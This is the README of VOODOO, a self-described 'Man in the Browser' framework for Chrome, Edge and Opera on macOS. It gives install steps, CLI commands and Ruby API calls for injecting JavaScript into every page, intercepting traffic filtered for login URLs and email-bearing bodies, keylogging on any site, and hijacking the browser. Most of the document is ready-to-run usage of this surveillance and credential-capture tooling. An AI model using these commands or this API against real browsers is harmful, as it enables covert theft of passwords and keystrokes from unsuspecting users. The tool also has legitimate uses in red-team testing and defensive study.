

# VOODOO
Man in the Browser Framework

<p align="center">
    <br />
    
</p>

## Browser Support

| [](http://godban.github.io/browsers-support-badges/)<br/>Edge | [](http://godban.github.io/browsers-support-badges/)<br/>Chrome | [](http://godban.github.io/browsers-support-badges/)<br/>Opera |
| --------- | --------- | --------- |
| macOS only | macOS only | macOS only

## Features
* 📜 Content Scripts - inject arbitrary JavaScript to any page
* 🔍 Interceptor - capture browser traffic (url, headers, body, etc)
* 🔑 Keylogger - records user keystrokes on any site

## Requirements
* ruby >= 2.0.0
* rubygems >= 1.8
* thor ~> 1.2.1
* bundler >= 1.17

## Installation
```sh
$: git clone https://github.com/breakpointHQ/VOODOO.git
$: cd VOODOO
$: bundle install
$: ./scripts/install.sh
```

If you don't have the `/Users/[user]/.gem/ruby/[version]/bin` in your `PATH`, add it.

## CLI

```sh
$: voodoo
Commands:
  voodoo help [COMMAND]    # Describe available commands or one specific command
  voodoo intercept         # intercept browser requests
  voodoo keylogger         # records user keystrokes
  voodoo script <js/path>  # add a content script
  voodoo version           # Prints voodoo version
```

## Adding content script

```sh
Usage:
  voodoo script <js/path>

Options:
  s, [--site=SITE]              
  m, [--matches=one two three]  
                                # Default: ["*://*/*"]
  b, [--browser=BROWSER]        
                                # Default: chrome

add a content script
```

Execute JS on every page loaded on the Opera browser.
```sh
$: voodoo script "alert('Hello VOODOO!');" -b opera
```

Execute JS on every page matches `https://example.com/*`
```sh
$: voodoo script "alert('Example VOODOO!');" -b chrome -m "https://example.com/*"
```

Execute JS on every page loaded on Google Chrome, and open `https://example.com`.
```js
$: voodoo script /tmp/myjs.js -b chrome -s "https://example.com"
```

## Intercept browser traffic

```sh
Usage:
  voodoo intercept

Options:
  u, [--url-include=URL_INCLUDE]      
  b, [--body-include=BODY_INCLUDE]    
  h, [--header-exists=HEADER_EXISTS]  
  o, [--output=OUTPUT]                
                                      # Default: stdout
  s, [--site=SITE]                    
  m, [--matches=one two three]        
                                      # Default: ["<all_urls>"]
  b, [--browser=BROWSER]              
                                      # Default: chrome

intercept browser requests
```

Intercept all requests
```sh
$: voodoo intercept -o /tmp/requests_log.txt
```

Intercept all requests from Opera browser only when the url include `/login`.
```sh
$: voodoo intercept -o /tmp/requests_log.txt --url-include "/login"
```

Intercept all requests when the post body include `@`.
```sh
$: voodoo intercept -o /tmp/requests_log.txt --body-include "@"
```

Intercept all requests when the url matches `https://example.com/*` or `https://example.net/*`
```sh
$: voodoo intercept -m "https://example.com/*" "https://example.net/*"
```

## Keylogger
```sh
Usage:
  voodoo keylogger

Options:
  s, [--site=SITE]              
  o, [--output=OUTPUT]          
                                # Default: stdout
  m, [--matches=one two three]  
                                # Default: ["*://*/*"]
  b, [--browser=BROWSER]        
                                # Default: chrome

records user keystrokes
```

Record user keys only when the url matches `https://example.com/*`
```sh
$: voodoo keylogger -m "https://example.com/*"
```

## Ruby API

```rb
require 'voodoo'

browser = VOODOO::Browser.Chrome
                       # .Opera
                       # .Edge
                       # .Chromium

# Execute JS on example.com
browser.add_script(content: 'alert("VOODOO Example!");',
                   matches: 'https://example.com/*')

# Intercept all browser requests
browser.intercept do |req|
    puts "#{req[:method]} #{req[:url]}"
end

# Inject keylogger to every page
browser.keylogger do |event|
    print event[:log]
end

# hijack browser, and open example.com
browser.hijack 'https://example.com'
```

